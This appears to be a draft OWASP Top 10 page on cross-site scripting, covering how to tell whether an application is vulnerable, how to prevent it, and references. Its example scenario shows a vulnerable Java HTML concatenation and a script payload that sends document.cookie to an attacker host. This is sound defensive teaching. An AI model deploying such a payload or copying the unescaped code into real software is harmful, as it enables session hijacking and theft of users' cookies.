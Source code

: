 # A3 Cross Site Scripting

| Threat agents | Exploitability | Prevalance | Detectability | Technical Impact | Business Impacts |
| --- | --- | --- | --- | --- | --- |
| App Specific |  EASY | COMMON | AVERAGE | SEVERE | App Specific | 
| TBA | TBA | TBA | TBA. | TBA |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.
Automated tools can find some XSS problems automatically. 

However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

To avoid Server XSS, the preferred option is to properly escape untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into. See the OWASP XSS Prevention Cheat Sheet for details on the required data escaping techniques.

To avoid Client XSS, the preferred option is to avoid passing untrusted data to JavaScript and other browser APIs that can generate active content. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP DOM based XSS Prevention Cheat Sheet.

For rich content, consider auto-sanitization libraries like OWASP’s AntiSamy or the Java HTML Sanitizer Project.
Use [Content Security Policy](https://www.owasp.org/index.php/Content_Security_Policy) (CSP) to mitigate the impact of potential XSS across your entire site.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

<code>
  (String) page += "<input name='creditcard' type='TEXT'  value='" + request.getParameter("CC") + "'>";
</code>

The attacker modifies the ‘CC’ parameter in his browser to:
<code>
  '><script>document.location=  'http://www.attacker.com/cgi-bin/cookie.cgi?  foo='+document.cookie</script>'.
</code>

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. 
Note that attackers can also use XSS to defeat any  automated CSRF defense the application might employ. See 2017-A8 for info on CSRF.

## References
OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
 OWASP Types of Cross-Site Scripting
 OWASP XSS Prevention Cheat Sheet
 OWASP DOM based XSS Prevention Cheat Sheet
 OWASP XSS Filter Evasion Cheat Sheet
External
 CWE Entry 79 on Cross-Site Scripting
